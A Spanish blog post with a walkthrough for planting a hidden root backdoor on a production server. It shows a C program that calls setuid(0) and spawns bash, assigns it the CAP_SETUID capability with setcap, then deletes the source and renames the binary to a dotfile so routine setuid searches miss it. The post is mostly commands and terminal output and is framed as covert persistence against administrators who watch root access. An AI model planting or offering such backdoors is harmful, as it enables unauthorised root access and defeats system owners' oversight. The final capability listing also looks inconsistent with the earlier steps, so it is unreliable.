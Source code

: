 Title: Un root shell en C
Slug: un-root-shell-en-c
Date: 2016-06-13 08:00
Category: Operaciones
Tags: linux, shell, root, capabilities



Cuando operamos un servidor de producción es habitual que no tengamos acceso habitual al usuario *root*, e incluso lo tengan altamente vigilado. Podemos intentar dejar una puerta trasera, por ejemplo poniendo un binario con el *setuid* bit activado, te pueden pillar. Sin embargo es posible dejar una puerta abierta oculta.

El truco esta en las *linux capabilities*, que nos permiten dar permisos para operaciones concretas a binarios concretos; así pues, no es necesario ejecutar el binario con el usuario *root*.

El resto es tan fácil como hacer un binario que escale a *root* y luego ejecute lo que necesitamos, por ejemplo, una línea de comandos **bash**.

Aquí ponemos el código fuente necesario para hacer lo que pretendemos.

```bash
[gerard@server ~]$ cat root_shell.c
int main() {
    setuid(0);
    system("bash");
}
[gerard@server ~]$
```

La compilación no tiene ningún misterio; lo compilamos con **gcc** y le pasamos un **strip** para reducir el tamaño al máximo.

```bash
[gerard@server ~]$ gcc -o root_shell root_shell.c
[gerard@server ~]$ strip root_shell
[gerard@server ~]$
```

Si tratamos de ejecutarlo, veremos que la llamada para escalar a *root* ha sido ignorada; el usuario que hemos usado no tiene permisos para hacer eso.

```bash
[gerard@server ~]$ ./root_shell
[gerard@server ~]$ id
uid=1002(gerard) gid=1002(gerard) groups=1002(gerard)
[gerard@server ~]$ exit
exit
[gerard@server ~]$
```

Vamos a darle la *capability* **CAP_SETUID**. Además, le pondremos los flags *effective* y *permitted*, que darán la *capability* automáticamente y lo pasará a los procesos hijos. Mas información en [la documentación](http://linux.die.net/man/7/capabilities).

**TRUCO**: he usado **sudo** para hacer esta operación, pero como no tendremos esto en producción, tendremos que esperar una intervención en donde nos concedan ese permiso.

```bash
[gerard@server ~]$ sudo setcap cap_setuid+ep root_shell
[sudo] password for gerard:
[gerard@server ~]$
```

Ejecutando el binario, vemos que hemos obtenido lo que esperábamos; un binario que nos deja ante una línea de comandos con el usuario *root*.

```bash
[gerard@server ~]$ ./root_shell
[root@server ~]# id
uid=0(root) gid=1002(gerard) groups=1002(gerard)
[root@server ~]# exit
exit
[gerard@server ~]$
```

Podemos ver que no hay permisos especiales tipo *setuid*, con lo que no pueden encontrarlo con el **find** habitual.

```bash
[gerard@server ~]$ ls -lh
total 12K
-rwxrwxr-x. 1 gerard gerard 4.3K Mar 31 18:01 root_shell
-rw-rw-r--. 1 gerard gerard   50 Mar 31 17:59 root_shell.c
[gerard@server ~]$
```

Vamos a intentar ocultar lo que nos delataría a simple vista; eliminamos el innecesario código fuente y ocultaremos el binario.

```bash
[gerard@server ~]$ rm root_shell.c
[gerard@server ~]$ mv root_shell .hidden
[gerard@server ~]$ 
```

Comprobamos que sigue funcionando, y que tiene la *capability* que le hemos dado.

```bash
[gerard@server ~]$ ./.hidden
[root@server ~]# id
uid=0(root) gid=1002(gerard) groups=1002(gerard)
[root@server ~]# exit
exit
[gerard@server ~]$ getpcaps .hidden
Capabilities for `.hidden': = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+i
[gerard@server ~]$
```
